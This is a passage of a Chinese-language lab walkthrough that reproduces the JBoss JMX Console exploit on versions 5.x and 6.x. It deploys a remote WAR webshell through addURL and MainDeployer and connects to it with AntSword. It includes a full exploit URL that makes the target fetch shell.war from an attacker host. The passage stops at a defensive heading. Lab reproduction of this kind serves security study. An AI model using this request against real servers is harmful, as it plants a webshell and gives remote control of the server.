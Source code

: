 kali开启远程服务，为了下面部署war包

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210830201020.png)image-20210823115736527

进入JXM Console之后，找到jboss.deployment

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210830201021.png)image-20210823111537878

点进去找到void addURL(),输入远程war包链接之后，点击invoke

![]()image-20210823121654413

回到这个页面上方，点击Apply Changes

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210830201022.png)image-20210823121833925

返回到JMX Console页面，等待一会，刷新后可以看见部署成功

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210830201023.png)image-20210823122437357

蚁剑成功连接

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210830201024.png)image-20210823122620639

Jboss6.x的复现：

步骤差不多一样

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210830201025.png)image-20210823122818531![]()

在该页面找到methodindex为17or19的deploy，填写远程war包的地址进行远程部署

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210830201026.png)image-20210823130424900![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210830201027.png)image-20210823130758283![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210830201028.png)image-20210823130823043![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210830201029.png)image-20210823131048341

或者是直接运行下面的语句部署即可

    
    
    http://192.168.10.154:8080/jmx-console/HtmlAdaptor?action=invokeOp&name=jboss.syst  
    em:service=MainDeployer&methodIndex=17&arg0=http://192.168.10.65/shell.war  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210830201030.png)image-20210823131823568

蚁剑成功连接

![]()image-20210823131009567

部署的路径为如下，可以看见自动部署出war中的文件。

    
    
    C:\jboss-6.1.0.Final\server\default\work\jboss.web\localhost  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210830201031.png)image-20210823131904293

#### 安全防护
